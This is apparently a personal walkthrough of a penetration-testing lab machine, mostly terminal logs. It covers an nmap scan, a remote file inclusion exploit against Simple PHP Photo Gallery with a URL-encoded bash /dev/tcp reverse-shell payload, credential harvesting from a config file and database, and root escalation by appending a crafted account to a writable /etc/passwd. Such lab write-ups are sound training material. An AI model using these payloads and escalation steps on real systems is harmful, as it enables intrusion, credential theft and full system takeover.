

```sh
nmap 192.168.118.58                        
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-13 11:02 +0100
Nmap scan report for 192.168.118.58
Host is up (0.038s latency).
Not shown: 993 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
```

Found:
Simple PHP Photo Gallery v0.8 on port 80.


Found exploit:
https://www.exploit-db.com/exploits/7786

Didn't work.

Found exploit:
https://www.exploit-db.com/exploits/4902

Didn't work either

Found exploit:
https://www.exploit-db.com/exploits/48424

this worked:
```
http://192.168.118.58/image.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.190%2F21%200%3E%261%27&img=http://192.168.45.190/cmd.php
```

For some reason it only worked on port 21.
```sh
[2026-01-13 11:32:19] kali@kali ~ % rlwrap nc -lvnp 21 
Listening on 0.0.0.0 21
Connection received on 192.168.118.58 56602
bash: no job control in this shell
bash-4.2$ 
```

```sh
[2026-01-13 12:35:17] kali@kali ~ % rlwrap nc -lvnp 21
Listening on 0.0.0.0 21
Connection received on 192.168.118.58 56634
whoami
apache
python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$ ls
ls
README.txt               image.php    phpGalleryConfig.php
UpgradeInstructions.txt  images       phpGalleryStyle-RED.css
css                      index.php    phpGalleryStyle.css
db.php                   js           phpGallery_images
embeddedGallery.php      license.txt  phpGallery_thumbs
functions.php            photos       thumbnail_generator.php
bash-4.2$ cat db.php
cat db.php
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'MalapropDoffUtilize1337');
define('DBNAME', 'SimplePHPGal');
?>
bash-4.2$ mysql -h 127.0.0.1 -u root
mysql -h 127.0.0.1 -u root
ERROR 1045 (28000): Access denied for user 'root'@'localhost' (using password: NO)
bash-4.2$ mmysql -h 127.0.0.1 -u root -p
mysql -h 127.0.0.1 -u root -p
Enter password: MalapropDoffUtilize1337

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 29
Server version: 8.0.20 MySQL Community Server - GPL

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| SimplePHPGal       |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use SimplePHPGal;
use SimplePHPGal;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+------------------------+
| Tables_in_SimplePHPGal |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.01 sec)

mysql> select * from users;
select * from users;
+----------+----------------------------------------------+
| username | password                                     |
+----------+----------------------------------------------+
| josh     | VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= |
| michael  | U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==     |
| serena   | VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==     |
+----------+----------------------------------------------+
3 rows in set (0.01 sec)

mysql> exit
exit
Bye
```

```sh
2026-01-13 12:49:07] kali@kali ~/offsec/Snookums % echo "U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==" | base64 -d
SG9ja1N5ZG5leUNlcnRpZnkxMjM=                                                                                                                                                            
[2026-01-13 12:49:57] kali@kali ~/offsec/Snookums % echo "SG9ja1N5ZG5leUNlcnRpZnkxMjM" | base64 -d
HockSydneyCertify123
```

```sh
bash-4.2$ su michael
su michael
Password: HockSydneyCertify123
```

```
[michael@snookums html]$ sudo -l
sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for michael: HockSydneyCertify123

Sorry, user michael may not run sudo on snookums.
[michael@snookums html]$ find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/su
/usr/bin/sudo
/usr/bin/mount
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/fusermount
/usr/bin/passwd
/usr/sbin/unix_chkpwd
/usr/sbin/pam_timestamp_check
/usr/sbin/usernetctl
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
[michael@snookums html]$ ls -la usr/lib/polkit-1/polkit-agent-helper-1
ls -la usr/lib/polkit-1/polkit-agent-helper-1
ls: cannot access usr/lib/polkit-1/polkit-agent-helper-1: No such file or directory
[michael@snookums html]$ ls -la usr/lib/polkit-1/
ls -la usr/lib/polkit-1/
ls: cannot access usr/lib/polkit-1/: No such file or directory
[michael@snookums html]$ ls -la /usr/lib/polkit-1/
ls -la /usr/lib/polkit-1/
total 140
drwxr-xr-x.  2 root root     50 Jun  9  2020 .
dr-xr-xr-x. 27 root root   4096 Jun  9  2020 ..
-rwsr-xr-x.  1 root root  15432 Apr  1  2020 polkit-agent-helper-1
-rwxr-xr-x.  1 root root 120432 Apr  1  2020 polkitd

```

https://github.com/polkit-org/polkit/issues/169

```sh
[2026-01-13 12:56:49] kali@kali ~ % ssh michael@192.168.118.58
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
michael@192.168.118.58\'s password: 
Last login: Tue Jan 13 06:50:23 2026
[michael@snookums ~]$ ls -la /etc/passwd
-rw-r--r--. 1 michael root 1162 Jun 22  2021 /etc/passwd
[michael@snookums ~]$ openssl passwd -1 -salt password password 
$1$password$Da2mWXlxe6J7jtww12SNG/
[michael@snookums ~]$ echo 'hacker:$1$password$Da2mWXlxe6J7jtww12SNG/:0:0:root:/root:/bin/bash' >> /etc/passwd
[michael@snookums ~]$ su hacker
Password: 
[root@snookums michael]# 
[root@snookums ~]# cat proof.txt && ifconfig && date
75599b115c176906bd5954cfd8a00e7f
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.118.58  netmask 255.255.255.0  broadcast 192.168.118.255
        ether 00:50:56:9e:5b:d6  txqueuelen 1000  (Ethernet)
        RX packets 58114  bytes 7544397 (7.1 MiB)
        RX errors 0  dropped 1148  overruns 0  frame 0
        TX packets 45125  bytes 18035849 (17.2 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 321  bytes 39339 (38.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 321  bytes 39339 (38.4 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

Tue Jan 13 07:03:59 EST 2026
```


